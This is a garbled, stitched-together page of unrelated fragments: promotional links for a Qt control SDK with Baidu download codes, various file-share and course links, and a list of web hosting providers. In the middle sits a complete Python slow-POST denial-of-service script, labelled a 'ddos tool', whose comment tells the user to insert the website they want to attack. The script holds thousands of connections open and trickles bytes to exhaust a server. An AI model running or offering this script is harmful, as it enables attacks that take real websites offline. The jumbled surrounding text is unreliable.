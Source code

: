 http://blog.sina.com.cn/liang19890820   showdoc  gitlab
qt组件   简书：https://www.jianshu.com/u/1250ab46f9ad
https://www.jianshu.com/c/1b908f2aab44
SDK下载链接：https://pan.baidu.com/s/1A5Gd77kExm8Co5ckT51vvQ 提取码：877p
下载链接中包含了各个版本的动态库文件，所有控件的头文件，使用demo，自定义控件+属性设计器。
自定义控件插件开放动态库dll使用（永久免费），无任何后门和限制，请放心使用。
目前已提供26个版本的dll，其中包括了qt5.12.3 msvc2017 32+64 mingw 32+64 的。
不定期增加控件和完善控件，不定期更新SDK，欢迎各位提出建议，谢谢！
widget版本（QQ：517216493）qml版本（QQ：373955953）三峰驼（QQ：278969898）。
涛哥的知乎专栏 Qt进阶之路 https://zhuanlan.zhihu.com/TaoQt
欢迎关注微信公众号【高效程序员】，C++/Python、学习方法、写作技巧、热门技术、职场发展等内容，干货多多，福利多多！
Qt入门书籍推荐霍亚飞的《Qt Creator快速入门》《Qt5编程入门》，Qt进阶书籍推荐官方的《C++ GUI Qt4编程》。
强烈推荐程序员自我修养和规划系列书《大话程序员》《程序员的成长课》《解忧程序员》

链接：https://pan.baidu.com/s/10LeAj8vcXaTjr8MgKjRC9A 
提取码：78bz 
复制这段内容后打开百度网盘手机App，操作更方便哦

链接：https://pan.baidu.com/s/1asDezZy9ZfLZ2LIa3RsIaQ 
提取码：liol 
复制这段内容后打开百度网盘手机App，操作更方便哦

链接：https://pan.baidu.com/s/1OW_T2KUu6zWjE9OCUN8kZg 
提取码：fiee

链接：https://pan.baidu.com/s/1p8NhQBf5sDVU3tfs0naicQ 
提取码：io03

链接：https://pan.baidu.com/s/11JXfoprf391PiavFfnVLJQ 
提取码：89f1 
复制这段内容后打开百度网盘手机App，操作更方便哦

链接：https://pan.baidu.com/s/18fp85xb_hXwMIHWqM2cfdA 
提取码：ve60

用户名
@StockMarketGossip

https://drive.google.com/file/d/1dF8K5RzVT6EC9I84LTdp5bCC0vn2LbnG/view

https://edu.csdn.net/course/detail/10750

https://drive.google.com/file/d/1DNRlFUil5O4CEhkUpfnGjXTdr9tOp21r/view?usp=sharing

https://drive.google.com/file/d/1Cnl42jLjVgpyO4PkIFzKWDLwjVy8cVCZ/view?usp=sharing

https://github.com/fluttercandies/wechat_flutter

#!/usr/bin/env python// .ly https://sinister   hz2vAkv#aLfZ   https://hackforums.net/member.php
#https://paper.seebug.org/142/
#https://core.ac.uk/download/pdf/154333223.pdf
import socket
import time
import threading
#Pressure Test,ddos tool
#---------------------------
MAX_CONN=30000
#改写下面的网址为你想攻击的网站！！！！！！！！！
PORT=80
HOST="www..com"
PAGE="/recitewords/api"
#---------------------------
buf=("POST %s HTTP/1.1\r\n"
"Host: %s\r\n"
"Content-Length: 10000\r\n"
"Cookie: dklkt_dos_test\r\n"
"\r\n" % (PAGE,HOST))
socks=[]
def conn_thread():
    global socks
    while len(socks)<MAX_CONN:
        s=socket.socket (socket.AF_INET,socket.SOCK_STREAM)
        try:
            s.connect((HOST,PORT))
            s.send(buf.encode('utf-8'))
            #print ("[+] Send buf OK!,conn=%d\n"%len(socks))
            socks.append(s)
        except Exception as ex:
            print ("[-] Could not connect to server or send error:%s"%ex)
            time.sleep(2)
#end def
def send_thread():
    global socks
    while True:
        for s in socks:
            try:
                s.send("f".encode('utf-8'))
                #print ("[+] send OK! %s"%s)
            except Exception as ex:
                print ("[-] send Exception:%s\n"%ex)
                socks.remove(s)
                s.close()
                time.sleep(1)
#end def
conn_th=threading.Thread(target=conn_thread,args=())
send_th=threading.Thread(target=send_thread,args=())
conn_th.start()
send_th.start()
while(True):
    print("存活连接数：%d "%len(socks))
    time.sleep(1)
    
    
    
 CertifiedHosting - 成立于1999年，CertifiedHosting提供共享虚拟主机，经销主机托管和独立服务器。
NameCheap - Namecheap成立于2000年，是目前互联网上最大的域名注册商之一。自成立以来，Namecheap提供了许多服务，包括共享主机，经销主机托管，VPS主机和专用服务器。
BitcoinWebHosting - BitcoinWebHosting是专门提供主机服务给比特币社区的美国主机商。

https://clients.hostsailor.com/viewinvoice.php?id=171054
